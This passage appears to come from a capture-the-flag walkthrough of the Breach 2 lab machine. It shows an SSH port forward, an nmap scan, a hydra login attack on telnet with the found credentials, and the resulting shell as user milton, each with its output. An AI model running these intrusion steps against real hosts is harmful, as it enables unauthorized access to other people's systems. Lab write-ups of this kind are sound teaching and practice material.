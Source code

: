 
## forward port

	ssh -N -f -L 2323:127.0.0.1:2323 peter@192.168.110.151 -p 65535


## Scan port 2323 on localhost

	$ sudo nmap -sV -sT 127.0.0.1 -p2323
	Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-01 11:02 CET
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000054s latency).

	PORT     STATE SERVICE VERSION
	2323/tcp open  telnet  Linux telnetd
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds

## Bruteforce telnet with hydra
	
	$ hydra -l milton -p Houston telnet://127.0.0.1:2323
	Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-01 11:03:39
	[WARNING] telnet is by its nature unreliable to analyze, if possible better choose FTP, SSH, etc. if available
	[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
	[DATA] attacking telnet://127.0.0.1:2323/
	[2323][telnet] host: 127.0.0.1   login: milton   password: Houston  <== HERE
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-01 11:03:39


## Connect to milton account with telnel

	$ telnet localhost 2323
	Trying ::1...
	Trying 127.0.0.1...
	Connected to localhost.
	Escape character is '^]'.
	29 45'46" N 95 22'59" W 
	breach2 login: milton
	Password: 
	Last login: Wed Jul 20 21:04:18 EDT 2016 from localhost on pts/0
	Linux breach2 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt25-2 (2016-04-08) x86_64
	29 45'46" N 95 22'59" W 
	3
	2
	1
	Whose stapler is it?mine
	Woot!
	milton@breach2:~$ id
	uid=1002(milton) gid=1002(milton) groups=1002(milton)
